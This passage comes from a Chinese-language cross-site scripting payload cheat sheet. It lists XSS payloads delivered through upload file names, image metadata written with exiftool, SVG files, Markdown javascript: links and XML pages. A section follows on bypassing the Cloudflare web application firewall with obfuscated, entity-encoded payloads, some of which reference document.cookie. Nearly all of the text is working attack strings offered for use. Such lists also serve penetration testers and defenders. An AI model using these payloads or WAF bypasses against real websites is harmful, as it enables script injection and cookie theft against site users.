 20. 在文件名中使用XSS（文件上传）。

```
"><svg onload=alert(1)>.jpeg
```

21. 在元数据中使用XSS（文件上传）。

```
$ exiftool -Artist='"><script>alert(1)</script>' dapos.jpeg
```

22. 使用SVG文件进行XSS（文件上传）。

```
<svg xmlns="http://www.worg/2000/svg" onload="alert(1)"/>
```

23. 通过Markdown进行XSS。

```
[Click Me](javascript:alert('1'))
```

24. XML页面中的XSS。

```
<a:script xmlns:x="http://www.worg/1999/xhtml">alert(1)</a:script>
```

> 如果输入在评论部分，请添加 "-->" 到Payload。

> 如果输入在CDATA部分，请添加 "]]>" 到Payload。

### `绕过WAF`

1. Cloudflare

```
<svg%0Aonauxclick=0;[1].some(confirm)//

<svg/onload={alert`1`}>

<a/href=j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(1)&rpar;>

"><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;

"><onx=[] onmouseover=prompt(1)>

%2sscript%2ualert()%2s/script%2u

"Onx=() onMouSeoVer=prompt(1)>"Onx=[] onMouSeoVer=prompt(1)>"/*/Onx=""//onfocus=prompt(1)>"//Onx=""/*/%01onfocus=prompt(1)>"%01onClick=prompt(1)>"%2501onclick=prompt(1)>"onClick="(prompt)(1)"Onclick="(prompt(1))"OnCliCk="(prompt`1`)"Onclick="([1].map(confirm))

[1].map(confirm)'ale'+'rt'()a&Tab;l&Tab;e&Tab;r&Tab;t(1)prompt&lpar;1&rpar;prompt&#40;1&#41;prompt%26%2300000000000000000040;1%26%2300000000000000000041;(prompt())(prompt``)

<svg onload=alert%26%230000000040"1")>

<svg onload=prompt%26%230000000040document.domain)>

<svg onload=prompt%26%23x000000028;document.domain)>

<svg/onrandom=random onload=confirm(1)>

<video onnull=null onmouseover=confirm(1)>

<a id=x tabindex=1 onbeforedeactivate=print(`XSS`)></a><input autofocus>
```